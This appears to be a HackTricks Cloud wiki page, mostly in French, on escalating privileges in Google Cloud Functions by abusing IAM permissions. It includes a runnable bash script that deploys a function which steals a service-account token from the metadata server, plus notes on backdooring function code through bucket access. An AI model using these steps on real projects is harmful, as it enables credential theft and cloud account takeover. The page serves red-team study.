 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Plus d'informations sur Cloud Functions :

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Un attaquant avec ces privilèges peut **créer une nouvelle Cloud Function avec du code arbitraire (malveillant) et lui attribuer un Service Account**. Ensuite, il peut récupérer le token du Service Account à partir des métadonnées pour élever ses privilèges.\
Certains privilèges pour déclencher la fonction peuvent être nécessaires.

Des scripts d'exploitation pour cette méthode peuvent être trouvés [ici](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) et [ici](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py) et le fichier .zip préconstruit peut être trouvé [ici](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions).

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Un attaquant avec ces privilèges peut **modifier le code d'une fonction et même modifier le compte de service attaché** dans le but d'exfiltrer le token.

{% hint style="danger" %}
Pour déployer des cloud functions, vous aurez également besoin de permissions actAs sur le compte de service de calcul par défaut ou sur le compte de service utilisé pour construire l'image.
{% endhint %}

Certains privilèges supplémentaires comme la permission `.call` pour la version 1 des cloudfunctions ou le rôle `role/run.invoker` pour déclencher la fonction peuvent être nécessaires.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
Si vous obtenez l'erreur `Permission 'run.services.setIamPolicy' denied on resource...`, c'est parce que vous utilisez le paramètre `--allow-unauthenticated` et que vous n'avez pas suffisamment de permissions pour cela.
{% endhint %}

Le script d'exploitation pour cette méthode peut être trouvé [ici](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py).

### `cloudfunctions.functions.sourceCodeSet`

Avec cette permission, vous pouvez obtenir une **URL signée pour pouvoir télécharger un fichier dans un bucket de fonction (mais le code de la fonction ne sera pas modifié, vous devez toujours le mettre à jour)**

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

Je ne suis pas vraiment sûr de l'utilité de cette seule autorisation du point de vue d'un attaquant, mais c'est bon à savoir.

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

Donnez-vous l'un des précédents privilèges **`.update`** ou **`.create`** pour escalader.

### `cloudfunctions.functions.update`

Avoir uniquement des autorisations **`cloudfunctions`**, sans **`iam.serviceAccounts.actAs`**, vous **ne pourrez pas mettre à jour la fonction DONC CE N'EST PAS UN VALID PRIVESC.**

### Accès en lecture et écriture sur le bucket

Si vous avez un accès en lecture et écriture sur le bucket, vous pouvez surveiller les changements dans le code et chaque fois qu'une **mise à jour dans le bucket se produit, vous pouvez mettre à jour le nouveau code avec votre propre code** afin que la nouvelle version de la Cloud Function s'exécute avec le code backdoor soumis.

Vous pouvez en savoir plus sur l'attaque dans :

{% content-ref url="gcp-storage-privesc.md" %}
[gcp-storage-privesc.md](gcp-storage-privesc.md)
{% endcontent-ref %}

Cependant, vous ne pouvez pas utiliser cela pour pré-compromettre des Cloud Functions tierces car si vous créez le bucket dans votre compte et lui donnez des autorisations publiques afin que le projet externe puisse y écrire, vous obtenez l'erreur suivante :

<figure><img src="../../../.gitbook/assets/image.png" alt="" width="304"><figcaption></figcaption></figure>

{% hint style="danger" %}
Cependant, cela pourrait être utilisé pour des attaques DoS.
{% endhint %}

### Accès en lecture et écriture sur l'Artifact Registry

Lorsqu'une Cloud Function est créée, une nouvelle image docker est poussée vers l'Artifact Registry du projet. J'ai essayé de modifier l'image avec une nouvelle et même de supprimer l'image actuelle (et l'image `cache`), mais rien n'a changé, la Cloud Function continue de fonctionner. Par conséquent, il **pourrait être possible d'abuser d'une attaque de condition de course** comme avec le bucket pour changer le conteneur docker qui sera exécuté, mais **modifier simplement l'image stockée n'est pas possible pour compromettre la Cloud Function**.

## Références

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

